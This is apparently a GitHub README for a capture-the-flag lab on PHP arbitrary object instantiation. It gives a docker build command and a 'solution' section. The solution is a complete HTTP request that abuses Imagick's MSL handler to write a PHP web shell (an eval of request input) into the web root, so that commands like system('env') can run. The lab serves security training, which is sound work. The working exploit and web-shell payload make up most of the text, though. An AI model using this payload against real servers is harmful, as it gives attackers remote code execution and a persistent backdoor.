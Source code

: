 # arbitrary-object-instantiation

A PHP, Arbitrary Object Instantiation Lab

A challenge / playground for the bug described [here](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/).

## build

Build the container, specifying the flag you want for the challenge with the `--build-arg` value:

```text
docker build -t apoi:local . --build-arg flag_value="flag{your_flag}"
```

## solution

Write a shell so you could exec something like `system('env');`

```text
POST /image.php?module=Imagick&params=vid:msl:/tmp/php*&size=1 HTTP/1.1
Host: localhost
Content-Length: 364
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryABOhqQ5dmxPyigV2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/index.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundaryABOhqQ5dmxPyigV2
Content-Disposition: form-data; name="pictures"; filename="pew.msl"
Content-Type: text/plain

<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php @eval(@$_REQUEST['a']); ?&gt;" />
 <write filename="info:/var/www/html/shell.php" />
</image>

------WebKitFormBoundaryABOhqQ5dmxPyigV2--
```
